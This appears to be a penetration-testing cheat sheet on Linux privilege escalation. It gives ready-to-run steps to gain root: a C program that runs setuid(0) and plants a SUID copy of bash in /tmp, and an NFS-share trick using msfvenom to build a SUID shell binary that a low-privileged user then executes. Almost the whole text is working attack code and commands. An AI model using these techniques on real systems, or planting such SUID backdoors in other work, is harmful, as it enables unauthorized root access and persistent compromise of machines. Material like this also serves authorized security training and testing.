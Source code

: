 ## Compiling a service running bash shell
- `bash_service.c`:
```C
int main() {
	setuid(0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "int main() {\nsetuid(0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > bash_service.c
```
- Compile it to the service file:
```bash
gcc -o <service_name> bash_service.c
```

## Permissions modification in NFS
- Mount the NFS share:
```bash
mkdir /tmp/mounted_share
sudo mount -t nfs <ip>:<share_name> /tmp/mounted_share/ -nolock
```
- Prepare the shell:
```bash
sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/mounted_share/shell.elf
```
- Add permissions:
```bash
sudo chmod +xs /tmp/mounted_share/shell.elf
```
- Run bash from the low privileged user on the target machine:
```bash
./shell.elf
```